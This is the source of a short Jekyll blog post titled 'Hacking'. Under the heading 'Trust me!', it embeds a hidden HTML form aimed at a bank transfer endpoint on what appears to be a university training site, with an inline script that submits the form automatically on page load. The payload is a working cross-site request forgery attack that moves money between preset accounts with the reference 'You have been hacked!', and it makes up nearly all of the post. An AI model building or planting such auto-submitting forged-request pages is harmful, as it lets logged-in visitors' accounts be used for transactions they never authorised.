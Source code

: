 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


#### Trust me!

<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<script>document.getElementById("TransactionTransferForm").submit()</script>
</div>
<input class="btn btn-primary" type="submit" value="Continue">
</form>


	

****
